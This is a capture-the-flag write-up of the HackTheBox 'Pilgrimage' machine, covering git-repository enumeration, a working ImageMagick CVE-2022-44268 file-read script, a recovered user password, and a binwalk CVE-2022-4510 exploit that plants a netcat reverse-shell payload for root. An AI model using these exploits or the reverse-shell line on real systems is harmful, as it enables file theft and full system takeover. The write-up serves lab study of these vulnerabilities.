


## 🌳 - Project Tree

``` js
.
├── README.md
├── exploitation
│   ├── CVE-2022-44268
│   │   ├── infected_img
│   │   │   ├── db.png
│   │   │   ├── img.png
│   │   │   ├── malicious.png
│   │   │   └── malicious_db.png
│   │   ├── response_img
│   │   │   ├── 64a570723f9da.png
│   │   │   └── 64a57688f407b.png
│   │   └── script
│   │       └── malicious_gen.py
│   └── enumeration
│       ├── git
│       │   ├── source_code
│       │   │   ├── login.php.txt
│       │   │   └── magick
│       │   └── tmp
│       │       └── ...
│       ├── gobuster
│       │   ├── dir_common
│       │   └── dns
│       ├── nmap
│       │   ├── initial.gnmap
│       │   ├── initial.nmap
│       │   └── initial.xml
│       └── whatweb
│           ├── aggressive
│           └── stealthy
├── privilege_escalation
│   ├── CVE-2022-4510
│   │   ├── binwalk_exploit.pfs
│   │   └── exploit_binwalk.py
│   └── enumeration
│       ├── linenum
│       │   └── linenum
│       └── linpeas
│           └── linpeas
└── report
    ├── notebook
    │   ├── password.ipynb
    │   └── walktrought.ipynb
    └── screenshot
        └── ...
```

# Pilgrimage


## Exploitation

We start with an initial scan with nmap:


This first scan shows two open ports 80-http and 22-ssh, but the most interesting thing is that we have access to the git repository.

But before exploring the .git repository let's do an enumeration of directories and subdomains with gobuster:





Apparently we have no subdomains or anything else of interest, except that we have confirmation of the presence of the .git repository.

So let's go see what's there:


The file points to another path, let's see:


Okay, we have the hash of a git commit, which takes us to the Git objects path where there are subdirectories of git objects whose name is two characters. The name of the subdirectory, in this case, is identified by the first two characters of the 'hash found:


Now you can decode the file with the following command:

``` bash
printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - <file> | gzip -cd -q
```

So we now have another hash:


We found the username of a possible user - emily -

Another solution to decode files and read their contents is to create a temporary git repository:

``` bash
mkdir tmp; cd tmp; git init;
```


Decoding:


Well, we may have found the source code of some files, the most interesting in my opinion are login.php and magick -- an image processing program --

Decoding:


Perfect, we have the login.php source code and the magick binary.

From a first analysis login.php doesn't seem vulnerable to SQL Injection, though, we have the database path - /var/db/pilgrimage - let's pin that down that might be useful later.

Let us now take a look at the magick binary file:


Let's check if ImageMagick version 7.1.0-49 has any known vulnerabilities:


Found, even two vulnerabilities, we will focus on arbitrary reading of files [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268):


We can use this vulnerability to read files for which ImageMagick has permissions, causing it to process an image in PNG format with arbitrary code inside.

I wrote the following script in Python to create a simple 100x100px black image with the malicious code inside:


```python
from PIL import Image
import subprocess
from termcolor import colored

# Create Image --------------------------------------------------------------->

filename = input("Insert image filename: ")
image = Image.new("RGB", (100, 100))
image.save(filename)

# Injects the malicious text chunk ------------------------------------------->

file_to_read = input("Insert file to read (es:'/etc/passwd'): ") 

print(colored(
 f"\n[*] exec: pngcrush -text a profile {file_to_read} {filename} "
 "malicious.png\n",
 "blue"))

cmd = [
 'pngcrush', 
 '-text', 
 'a', 
 'profile', 
 file_to_read, 
 filename, 
 'malicious.png'
]
subprocess.run(cmd)

# View content --------------------------------------------------------------->

print(colored("\n[*] exec: xxd malicious.png\n", "blue"))
cmd = ['xxd', 'malicious.png']
subprocess.run(cmd)

# View metadata -------------------------------------------------------------->

print(colored("\n[*] exec: exiv2 -pS malicious.png\n", "blue"))
cmd = ['exiv2', '-pS', 'malicious.png']
subprocess.run(cmd)

```
    [*] exec: pngcrush -text a profile /etc/passwd img.png malicious.png

    [*] exec: xxd malicious.png
    
    00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 0064 0000 0064 0800 0000 0055 89ca  ...d...d.....U..
    00000020: 8800 0000 2149 4441 5468 43ed c181 0000  ....!IDAThC.....
    00000030: 0000 c3a0 f953 5fe1 0055 0100 0000 0000  .....S_..U......
    00000040: 0000 0000 8f01 2774 0001 2ce1 0e60 0000  ......'t..,..`..
    00000050: 0013 7445 5874 7072 6f66 696c 6500 2f65  ..tEXtprofile./e
    00000060: 7463 2f70 6173 7377 6446 5bd7 5800 0000  tc/passwdF[.X...
    00000070: 0049 454e 44ae 4260 82                   .IEND.B`.

    [*] exec: exiv2 -pS malicious.png

    STRUCTURE OF PNG FILE: malicious.png
     address | chunk |  length | data                           | checksum
           8 | IHDR  |      13 | ...d...d....                   | 0x5589ca88
          33 | IDAT  |      33 | hC..........S_..U............' | 0x2ce10e60
          78 | tEXt  |      19 | profile./etc/passwd            | 0x465bd758
         109 | IEND  |       0 |                                | 0xae426082


      Recompressing IDAT chunks in img.png to malicious.png
       Total length of data found in critical chunks            =       109
       Best pngcrush method        =   1 (ws 15 fm 0 zl 4 zs 0) =        90
    CPU time decode 0.001560, encode 0.001913, other 0.001454, total 0.007425 sec

    CompletedProcess(args=['exiv2', '-pS', 'malicious.png'], returncode=0)


With the previous script I used the command:

``` bash
pngcrush -text a profile /etc/passwd img.png malicious.png
```

To add a malicious chunk text to the __img.png__ image that tells ImageMagick to read the _/etc/passwd_ file and return the new image with the name __malicious.png__.

Then with:

``` bash
xxd malicious.png
```

and

``` bash
exiv2 -pS malicious.png
```

We can see the content added to the file metadata.


Now all that remains is to upload it to _pilgrimage.htb_ and download the new image, which should contain the contents of the /etc/passwd file inside:


So we have the link to the new image, let's download it and see its contents with _identify -verbose_:


At the __Raw profile type__ line we have the format in hexadecimal of the _/etc/passwd_ file, we convert with Python:


```python
clean_str = "726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d\
    6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f\
    6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e\
    2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269\
    6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f\
    62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d\
    65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a\
    2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a\
    783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f\
    6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372\
    2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73\
    706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31\
    303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f\
    6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573\
    722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d\
    646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b\
    75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f\
    7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69\
    732f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269\
    6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f\
    62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d\
    65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a\
    2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a\
    783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f\
    6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372\
    2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73\
    706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31\
    303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f\
    6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573\
    722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d\
    646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b\
    75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f\
    7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69\
    7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67\
    696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73\
    62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d\
    5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e\
    6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334\
    3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e\
    2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374\
    656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72\
    6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65\
    6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e\
    0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052\
    65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f\
    6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973\
    74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573\
    796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69\
    7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c\
    6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d\
    652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78\
    3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f\
    7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f\
    737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938\
    3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a\
    ".replace('\n', '')

print (bytes.fromhex(clean_str).decode("utf-8"))
```

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing Lis/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    


Perfect, we have confirmed that there is a user named __emily__ who is the only one with shell access besides __root__.

Now let's try reading the database file located in _/var/db/pilgrimage_ using the same procedure:


Okay, the decoding is not optimal, but we can assume that what follows _emily_ may be his password, i.e. __abigchonkyboi123__, let's try it:


We are in! In _user.txt_ is contained the user's flag.

## Privilege Escalation

As a first step we start with system enumeration using __linpeas.sh__ and __linenum.sh__, we must first transfer them from our machine to the target system, one of the easiest methods is using Python:

``` bash
python3 -m http.server <port>
```


Let's run them:


After careful analysis a decidedly interesting file is _malwarescan.sh_, let's take a look:


This file is owned by __root__ but we have read permission and by analyzing the code, in summary, this Bash script monitors the _/var/www/pilgrimage.htb/shrunk/_ directory for the creation of new files. When the creation of a file is detected, its contents are parsed using the __binwalk__ command and checked to see if it contains any forbidden strings. If a match is found, the file is removed.

So let's take a look at __binwalk__:


__binwalk__ is a utility that is used to scan binary files so let's check if it has any known vulnerabilities:



Perfect, that's what we were looking for, the __2.3.2__ version of __binwalk__ is prone to the vulnerability [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510):


In our context we can exploit this vulnerability by creating a PFS file, with the containing our malicious code.

Now we could literally have it execute any command like __root__, such as creating a new ssh key or starting a reverse shell, I opted for the latter which is more practical.

Below is the exploit for binwalk:


```python
ip = input("Insert destination IP Address: ")
port = input("Insert destination port: ")

header_pfs = bytes.fromhex(
    "5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e7"
    "7616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000"
    "0000000000000000000000000000000000000000000000000000000000000000000000000"
    "0000000000000000000000000000000000000000000000000000000000000000000003412"
    "0000a0000000c100002e"
)
reverse_shell = f"nc {ip} {port} -e /bin/bash 2>/dev/null &"
malware = [
    'import binwalk.core.plugin\n',
    'import os\n', 
    'class MaliciousExtractor(binwalk.core.plugin.Plugin):\n',
    '    def init(self):\n',
    f'        os.system("{reverse_shell}")\n',
]

with open("binwalk_exploit.pfs", "wb") as f:
    f.write(header_pfs)
    for line in malware:
        f.write(line.encode("utf-8"))

```

This exploit is quite simple, first we enter the IP address of our machine, and the port on which we will be listening, following that we define the header of our PFS file in hexadecimal which corresponds to:

``` js
PFS/0.9         ../../../.config/binwalk/plugins/binwalk.py
```

Which is going to instruct __binwalk__ to load, immediately upon execution, our malicious script - binwalk.py - which corresponds to the code contained in __malware__.

Finally we create the file <i>binwalk_exploit.pfs</i>, this is what it looks like:


Since we know that the _malwarescan.sh_ script parses with __binwalk__ every file that is created in the _/var/www/pilgrimage.htb/shrunk_ directory, it will be enough to start listening on the predetermined port with netcat and transfer the file from our machine to that directory to activate the exploit and get the reverse shell with the __root__ user:


We have the shell of __root__, let's check:


The flag is found in _/root/root.txt_.
